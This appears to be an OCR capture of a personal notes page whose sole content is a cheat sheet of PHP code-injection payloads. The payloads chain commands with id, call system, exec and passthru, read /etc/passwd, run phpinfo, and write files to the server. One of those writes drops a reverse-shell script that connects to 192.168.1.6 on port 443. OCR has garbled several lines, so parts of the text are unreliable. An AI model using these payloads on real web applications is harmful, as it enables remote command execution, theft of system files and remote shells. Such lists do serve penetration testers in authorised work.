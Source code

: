 ```yaml
---
title: "Notes" 
header:
  image: /assets/images/dan.jpg
categories:
   - 
tag:
   -   
---
```


# —

---

# php code injection

```bash
;id
'id'
;id;
&&id
echo 'id'
system('id')
;system('id')
system("id")
SYSTEM("id")
system(%27id%27)
system('id');phpinfo()
SYSTEM('id');PHPINFO()
;system('/usr/bin/id')
system('cat /etc/passwd');
;system('cat /etc/passwd')
shell exec("id")
SHELL EXEC("id")
exec("id")
EXEC("id")
exec("ping -c 4 192.168.1.6")
passthru("id")
PASSTHRU("id")
phpinfo()
phpinfo();id
PHPINFO()
PHPINFO();id
phpinfo();system('cat /etc/passwd')
phpinfo();system('id')
PHPINFO();SYSTEM('id')
print_r($_POST);system('id')
PRINT_R($_POST);SYSTEM('id')
pcntl_exec("/usr/bin/uptime")
readfile?"/etc/passwd")
file get contents ("/etc/passwd")
$file = fopen ("testl.txt", "w"); echo fwrite($file, "Hello World. Testing!"); fclose($file)
$file = fopen ("phpinfo-1.php", "W"); echo fwrite ($file, "<?php phpinfo(); ?>"); fclose ($file)
$file = fopen("pshell.php", "w"); echo fwrite($file, "php -r '$sock=fsockopen ('192.168.1.6' ,443) ;' /bin/sh -i <83 >83 2-83' ;"); fclose($file)
```
